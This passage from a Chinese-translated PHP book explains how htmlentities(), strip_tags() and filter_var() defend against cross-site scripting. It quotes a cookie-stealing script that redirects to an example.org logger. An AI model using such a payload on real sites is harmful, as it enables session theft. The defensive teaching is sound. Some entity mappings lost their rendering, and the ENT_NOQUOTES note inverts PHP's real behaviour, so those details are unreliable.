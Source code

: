 该函数将五个字符视为特殊字符:

*   `&`将被翻译成`&`

*   `"`将被翻译为`&quot;`(当`quote_style`被设置为`ENT_NOQUOTES`时)

*   `>`将被翻译成`>`

*   `<`将被翻译成`<`

*   `'`将被翻译为`'`(当`quote_style`被设置为`ENT_QUOTES`时)

回到跨站点脚本的例子，如果用户的输入首先通过`htmlentities()`传递，而不是直接嵌入到页面中并作为 JavaScript 执行，那么输入将完全按照输入的样子显示，因为它将被翻译成这样:

```
<scriptgt;
document.location ='http://www.example.org/logger.php?cookie=' +
                    document.cookie
</script>

```

#### 从用户输入中剥离标签

有时最好是完全去除所有 HTML 输入的用户输入，而不管其意图如何。例如，当信息显示回浏览器时，基于 HTML 的输入可能特别成问题，就像留言板的情况一样。在留言板中引入 HTML 标记可能会改变页面的显示，导致页面显示不正确或根本不显示，如果标记包含 JavaScript，浏览器可能会执行该标记。这个问题可以通过将用户输入传递给`strip_tags()`来解决，它从一个字符串中移除所有标签(标签被定义为以字符`<`开始并以`>`结束的任何东西)。其原型如下:

```
string strip_tags(string str [, string allowed_tags])

```

输入参数`str`是将被检查标签的字符串，而可选输入参数 allowed_tags 指定您希望在字符串中允许的任何标签。例如，斜体标签(`<i></i>`)可能是允许的，但是像`<td></td>`这样的表格标签可能会对页面造成严重破坏。请注意，许多标签可以将 JavaScript 代码作为标签的一部分。如果标签被允许，则不会被移除。下面是一个例子:

```
<?php
    $input = "I <td>really</td> love <i>PHP</i>!";
    $input = strip_tags($input,"<i></i>");
    // $input now equals "I really love <i>PHP</i>!"
?>

```

### 使用过滤器扩展验证和净化数据

因为数据验证是一项非常普通的任务，所以 PHP 开发团队在 5.2 版本中为该语言添加了本地验证特性。称为过滤器扩展，您不仅可以使用这些新功能来验证数据(如电子邮件地址)以满足严格的要求，还可以清理数据，修改数据以符合特定的标准，而无需用户采取进一步的操作。

为了使用过滤器扩展来验证数据，您将从许多可用的过滤器和净化类型( [`http://php.net/manual/en/filter.filters.php`](http://php.net/manual/en/filter.filters.php) )中选择一种，甚至可以选择编写自己的过滤器函数，将类型和目标数据传递给`filter_var()`函数。例如，要验证一个电子邮件地址，您需要传递`FILTER_VALIDATE_EMAIL`标志，如下所示:

```
$email = "john@@example.com";
if (! filter_var($email, FILTER_VALIDATE_EMAIL))
{
    echo "INVALID E-MAIL!";
}

```
